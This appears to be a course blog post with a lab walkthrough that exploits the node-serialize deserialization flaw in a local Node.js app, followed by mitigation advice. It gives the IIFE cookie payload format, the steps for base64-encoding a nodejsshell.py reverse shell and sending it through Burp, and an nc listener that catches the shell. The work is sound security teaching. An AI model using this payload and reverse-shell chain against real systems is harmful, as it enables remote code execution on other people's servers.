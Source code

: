```yaml
---
layout: post
title: Insecure Deserialization & Insufficient Logging & Monitoring
---
```


# Insecure Deserialization
Serialization is the process where an object is encoded into a byte-stream which can be transferred across a network. It is then de-serialized to recover the object. Depending on the application, serialized objects may include executable instructions or authentication credentials. These serialized objects may be modified by an adversary. If the application is not able to detect tampering, it can allow the adversary to achieve effects like remote code execution or privilege escalation on the server.

We will be exploiting a known vulnerability of node-serialize discussed in last week's post.      
>**Vulnerability:** Untrusted data passed into unserialize() function in node-serialize module can be exploited to achieve arbitrary code execution by passing a serialized JavaScript Object with an Immediately invoked function expression (IIFE). Specifically the vulnerability in the web app is that it reads a cookie named profile from the HTTP request, perform base64 decode of the cookie value and passes it to unserialize() function. As cookie is an untrusted input, an attacker can craft malicious cookie value to exploit this vulnerability. <sub>[1]</sub>

### Exercise 
**Note:** Since this exercise gains access into the server we are unable to exploit the live vulnerable web app hosted in Heroku as they have added security on their back-end to prevent these kinds of attacks.    

1. Setup: 
- Clone or download https://github.com/ajinabraham/Node.Js-Security-Course.git
- On a seperate folder clone or download https://github.com/ashwinsawant/sbr.git and checkout branch Deserial with ```git checkout Deserial``` command.   
- Download postgresql from https://www.postgresql.org/download/
- Enter postgresql and run the following commands to create the database.
``` 
CREATE DATABASE sbr;
 \c sbr

CREATE TABLE users (
uid  SERIAL PRIMARY KEY, 
email varchar (40) NOT NULL, 
password varchar (250) NOT NULL, 
attempts integer DEFAULT 0
);

INSERT INTO users(email, password)
VALUES ('cocho@gmail.com', 'password'),
('ash@yahoo.com', 'pass123'),
('sal@msn.com', 'qwerty'),
('user123@gmail.com', '123user'),
('janedoe@yahoo.com', 'monkey'),
('jhondoe@hotmail.com', 'dragon');

CREATE TABLE lists (
lid SERIAL PRIMARY KEY, 
uid integer, 
list_name varchar (40),
FOREIGN KEY (uid) REFERENCES users(uid)
); 

INSERT INTO lists (uid, list_name)
VALUES ('1','Groceries'),
('1','Homework'),
('2','Errands'),
('3','Hardware');

CREATE TABLE items (
iid SERIAL PRIMARY KEY, 
lid integer, 
item_name varchar (40),
FOREIGN KEY (lid) REFERENCES lists(lid)
); 

INSERT INTO items (lid, item_name)
VALUES ('1','eggs'),
('1','apples'),
('2','Add tables'),
('2','Populate passwords'),
('3','Laundry'),
('3','Vacuum'),
('4','Hammer'),
('4','Screw driver');
```
- Run command 'npm start' to run web app locally on port 3000. 

     ![Local Host](/images/week8_npmStart.JPG)

2. Open Burp, go to Proxy > Options and make sure 127.0.0.1:8080 Proxy Listener is enabled. Then go to Firefox and change manual proxy settings to match Burp's.

     ![Burp Proxy](/images/week8_Proxy.JPG)

3. On Burp go to Proxy > Intercept and make sure Intercept is on. On Firefox go to localhost:3000/login and enter the following credentials at the login page: **Email:** cocho@gmail.com and **Password:** password      
Read carefully after GET you will see an api/login click Forward and then you will see a GET /setCookies, this is the request we are interested in.  We have just intercepted traffic and now have access to the encryted cookie along with the request format. Click on Action button and Send to Repeater. We will use later on in the process.   

   ![Burp Intercept](/images/week8_Cookie.JPG)

4. Go to the Node.Js-Security-Course folder and open the terminal and run the following command: `python nodejsshell.py 127.0.0.1 3333`
Copy text everything starting at `eval(`  and paste it in Burp's Decoder tab. 

   ![Python Scrypt](/images/week8_python.JPG)
   
5. Copy paste or type the following on the Decoder tab before eval `{"rce":"_$$ND_FUNC$$_function (){ ` and copy paste or type `}()"}` at the end after 10)) Click on Encode as and select Base 64 to get a long string of characters. 

    ![Decoder](/images/week8_base64.JPG)

6. Open a terminal and type `nc -l 127.0.0.1 3333`.  Looks like nothing is happening but give it a minute while we run the rest of the exploit. 

7. Copy the encoded string and got to the Repeater tab, replace the red text after profile= with the string and click Send. You should get a Response 302 Found and a message Redirecting like the image below. 

   ![Repeater Redirecting](/images/week8_Redirecting.JPG)   
   
8. Go back to the terminal where you entered `nc -l 127.0.0.1 3333` and you will see a Connected! message. Here are a few commands you can try      
`ls` list directory contents.      
`whoami` It displays the username of the current user.      
`pwd` Print Working Directory. It prints the path of the working directory, starting from the root.     
`uname -r` Used to get information about current operating system. In this case the Linux kernel version.     
`cat /etc/os-release` Name, version of Operating System.     
`exit` Get out of shell and back into working directory.     

   ![Shell](/images/week8_Connected.JPG)   

**[Video of Insecure Deserialization on localhost](https://media.oregonstate.edu/media/t/0_1e1lfvl2)**

### Analysis
Do not to accept serialized objects from untrusted sources or to use serialization mediums that only permit primitive data types. If that is not possible, consider the following:     
- Implementing integrity checks such as digital signatures on any serialized objects to prevent hostile object creation or data tampering.
- Enforcing strict type constraints during deserialization before object creation as the code typically expects a definable set of classes. Bypasses to this technique have been demonstrated, so reliance solely on this is not advisable.
- Isolating and running code that deserializes in low privilege environments when possible.
- Logging deserialization exceptions and failures, such as where the incoming type is not the expected type, or the deserialization throws exceptions.
- Restricting or monitoring incoming and outgoing network connectivity from containers or servers that deserialize.
Monitoring deserialization, alerting if a user deserializes constantly. <sub>[2]</sub>

### References
1. <https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/>
2. <https://hdivsecurity.com/owasp-insecure-deserialization> 
3. <https://github.com/ajinabraham/Node.Js-Security-Course>
4. <https://expressjs.com/en/resources/middleware/cookie-parser.html>
5. <https://www.yeahhub.com/nodejs-deserialization-attack-detailed-tutorial-2018/>

# Insufficient Logging & Monitoring
